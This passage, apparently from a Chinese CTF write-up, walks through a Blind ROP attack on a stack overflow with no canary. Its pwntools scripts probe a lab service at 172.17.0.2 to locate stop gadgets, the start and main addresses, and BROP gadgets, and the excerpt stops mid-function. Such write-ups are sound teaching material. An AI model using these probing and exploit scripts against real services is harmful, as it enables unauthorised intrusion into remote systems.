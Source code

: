 可以确定栈溢出长度为 72，且程序没有开启canary

##### 寻找stop gadgets

```python
  def get_stop_addr(length):
    addr = 0x400000
    while True:
      try:
        p = remote('172.17.0.2',10001)
        p.recvuntil("WelCome my friend,Do you know password?\n")
        payload = 'A'*length + p64(addr)
        p.send(payload)
        if p.recv() == "WelCome my friend,Do you know password?\n": # 根据这个条件匹配程序重新运行即start的地址
          p.close()
          log.success('one success addr : %#x',addr)
          return addr
      except Exception:
        addr += 1
        p.close()
  # start = get_stop_addr(length)
  start = 0x400590
  # main = get_stop_addr(length,start+0x2a)
  main = 0x400686
```

根据匹配输入找到了start的地址：0x400590,以及main的地址：0x400686

##### 识别brop gadgets

根据mian修改偏移寻找通用gadgets

```python
  def get_brop_gadget(length,main,addr):
    try:
      p = remote('172.17.0.2',10001)
      p.recvuntil("WelCome my friend,Do you know password?\n")
      payload = 'A'*length + p64(addr) + p64(0)*6 + p64(main) + p64(0)*10   # p64(0)*6,为了找到通用gadgets，p64(0)*10是为了防止addr指向的指令跳过mian
      p.send(payload)
      content = p.recv()
      p.close()
      print content
      if not content.startswith("WelCome"): # 如果找到通过gadgets，正常情况下会重新执行程序，输出"WelCome my friend,Do you know password?"
        return False
      return True
    except Exception:
      p.close()
      return False

  def check_brop_gadget(length,addr): # 用于检测是否为通用gadgers，如果是程序主体部分，也可能输出"WelCome my friend,Do you know password?"
    try:
      p = remote('172.17.0.2',10001)
      p.recvuntil("WelCome my friend,Do you know password?\n")
      payload = 'A'*length + p64(addr) + 'A'*8*10 # 如果程序有输出，那么addr属于程序主体部分，没有输出而是抛出异常，说明即是通用gadgets
      p.send(payload)
      content = p.recv()
      p.close()
      return False
    except Exception:
      p.close()
      return True

  def get_gadgets(length,main,offset):  # 通过设置不同的offset值来跳过程序的输入以及输出部分
```